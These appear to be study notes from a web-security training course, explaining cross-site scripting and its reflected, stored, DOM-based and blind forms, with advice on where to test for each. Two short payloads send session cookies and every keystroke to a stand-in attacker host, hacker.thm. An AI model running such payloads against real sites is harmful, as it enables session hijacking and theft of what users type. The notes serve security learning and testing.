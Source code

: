 Cross-site scripting or XSS is an injection attack where malicious JavaScript is injected into a web application with the intention of being executed by other users.

# XSS Payloads

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, and the modification is the changes to the code we need to make it execute as every scenario is different.

Examples of XSS Intention
- Proof Of Concept: This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text.
- Session Stealing: Using a script you can hijack or steal a users session that's stored in cookies. `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>` 
- Key Logger: You can forward anything typed into a webpage to a remote server. `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

# Types of XSS

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

example: A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken directly from information in the field where the error occurred and does not check the input

Testing:  

Test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.

## Stored XSS

the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

Example: A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

Testing: You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  
- Comments on a blog
- User profile information
- Website Listings

## DOM based XSS

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

Example: The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

Testing: DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

## Blind XSS

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

Example: A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

Testing: When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.